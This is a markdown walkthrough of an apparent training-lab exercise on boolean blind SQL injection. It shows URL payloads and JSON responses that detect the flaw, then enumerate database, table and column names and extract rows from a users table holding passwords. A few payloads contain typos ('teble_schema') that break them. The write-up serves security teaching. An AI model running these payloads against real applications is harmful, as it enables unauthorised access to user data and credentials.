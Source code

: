 # Boolean SQL Injection

### SQL Challenges
**Question 1:** You can use the "and 1=1 " and "and 1=2" queries to detect sql injection in user inputs. Avoid using "or 1=1"
```sql
-- Detecting Boolean SQLi
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' AND 1=1;--

SELECT * FROM users WHERE username='adam' AND 1=1;--'
```
```json
{"taken":true}
```

**Question 2:** Using the `and 1=` operator with a sub-query you can enumerate the database names from the information_schema.SCHEMATA table using a LIKE operator on the SCHEMA_NAME column.
```sql
-- Enumerating Database Name
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' and 1=(select 1 from information_schema.schemata where schema_name like 'a%');--
```
```json
{"taken":false}
```
- Try to change the charactor untill you find the `true` statement.
```sql
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' and 1=(select 1 from information_schema.schemata where schema_name like 'sqli_three%');--
```
```json
{"taken":true}
```

**Question 3:** Using the same method of 1= and now knowing our database names we can query the information_schema.TABLES table and use the like operator against the TABLE_NAME column and specify the database using the TABLE_SCHEMA column.
```sql
-- Enumerating Table Names
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' and 1=(select 1 from information_schema.tables where table_name like 'a%' andteble_schema='sqli_three');--
```
```json
{"taken":false}
```
- Try to change the charactor untill you find the `true` statement.
```sql
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' and 1=(select 1 from information_schema.tables where table_name like 'users%' and table_schema='sqli_three');--
```
```json
{"taken":true}
```

**Question 4:** Using the same method of 1= and now knowing our database names and table names we can query the information_schema.COLUMNS table and use the like operator against the COLUMN_NAME column and specify the database using the TABLE_SCHEMA column and the table using the TABLE_NAME column.
```sql
-- Enumerating Column Names
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' and 1=(select 1 from information_schema.columns where column_name like 'a%' and teble_schema='sqli_three' and table_name='users');--
```
```json
{"taken":false}
```
- Try to change the charactor untill you find the `true` statement.
```sql
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' and 1=(select 1 from information_schema.columns where column_name like 'username%' and table_schema='sqli_three' and table_name='users');--
```
```sql
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' and 1=(select 1 from information_schema.columns where column_name like 'password%' and table_schema='sqli_three' and table_name='users');--
```
```json
{"taken":true}
```

**Question 5:** Now we know the table structure we can try and enumerate data from it.
```sql
-- Enumerating Data
https://013h5e2x.eu2.ctfio.com/api/checkuser?username=adam' and 1=(select 1 from users limit 1);--
```

---

**SQL Lab:** https://app.hackinghub.io/hubs/interactive-sqli-boolean



